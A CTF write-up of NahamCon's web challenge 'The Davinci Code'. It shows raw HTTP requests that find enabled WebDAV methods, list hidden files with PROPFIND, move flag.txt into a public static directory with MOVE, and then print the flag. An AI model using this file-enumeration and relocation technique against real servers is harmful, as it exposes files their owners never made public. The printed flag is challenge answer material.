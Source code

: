 
# Challenge Name: The Davinci Code


![date](https://img.shields.io/badge/date-24.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...  
  
**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  

- [http://challenge.nahamcon.com:32230](http://challenge.nahamcon.com:32230/)

## Detailed solution

![Pasted image 20240525235157](https://github.com/BaadMaro/CTF/assets/72421091/bdc15164-4cab-4981-b054-d33937ac2f19)

The button has the page /code which is a debug data exception with the Werkzeug traceback interpreter.
http://challenge.nahamcon.com:32230/code

Nothing interseted in the page

If we check OPTIONS we can identify some HTTP methods

```http
OPTIONS /code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:54:56 GMT
Content-Type: text/html; charset=utf-8
Allow: PROPFIND, HEAD, OPTIONS, MOVE, GET
Content-Length: 0
Connection: close
```

We got PROPFIND and MOVE. It's used with web DAV which mentioned in the challenge as DAVinci

We can get files location with PROPFIND and use MOVE to place the flag in a accessible directory

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:57:48 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 1108
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/__pycache__</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>__pycache__</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/templates</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>templates</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/app.py</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>app.py</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/static</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>static</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>the_secret_dav_inci_code</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

Secret location /the_secret_dav_inci_code

```http
PROPFIND /the_secret_dav_inci_code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:58:52 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 453
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code/flag.txt</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>flag.txt</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

The flag is located at /the_secret_dav_inci_code/flag.txt

We can move it to static directory using MOVE method

```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32230
Destination: /static/flag.txt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 204 NO CONTENT
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 23:00:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
```

Let's check the flag http://challenge.nahamcon.com:32230/static/flag.txt

![Pasted image 20240526000206](https://github.com/BaadMaro/CTF/assets/72421091/00324271-5e0a-40d2-9610-f288590e43cf)

## Flag

```
flag{2bc76964262b3a1bbd5bc610c6918438}
```
